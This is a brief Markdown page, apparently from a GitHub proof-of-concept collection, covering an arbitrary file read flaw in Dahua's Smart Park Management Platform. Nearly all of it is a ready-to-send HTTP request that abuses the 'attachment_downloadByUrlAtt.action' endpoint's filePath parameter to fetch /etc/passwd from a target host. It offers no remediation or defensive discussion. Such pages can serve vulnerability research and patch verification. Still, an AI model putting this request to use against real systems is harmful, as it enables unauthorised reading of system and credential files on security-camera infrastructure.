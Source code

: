 
## 大华智慧园区管理平台任意文件读取

大华 城市安防监控系统平台管理 任意文件下载漏洞

![980ef223e974cc83ec550ebf4e831be0](https://github.com/wy876/POC/assets/139549762/c288a9eb-da04-477d-9374-f2fbf4197e25)

## poc
```
GET /portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd HTTP/1.1
Host: ip:port
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image](https://github.com/wy876/POC/assets/139549762/63bb42ac-8bd8-401e-a61b-120e7a910d5c)
